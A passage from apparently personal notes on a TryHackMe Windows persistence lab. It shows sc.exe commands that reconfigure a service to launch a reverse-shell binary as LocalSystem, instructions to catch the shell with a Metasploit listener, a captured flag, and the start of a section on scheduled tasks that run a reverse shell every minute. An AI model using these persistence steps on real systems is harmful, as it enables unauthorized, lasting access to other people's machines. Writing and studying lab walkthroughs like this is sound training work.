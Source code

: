 ```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell. From there, run `C:\flags\flag8.exe` to get a flag!

Once we did all that, we will receive a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515164758.png)

```
C:\flags>.\flag8.exe
THM{IN_PLAIN_SIGHT}
```

## Abusing Scheduled Tasks

***

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

### Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:
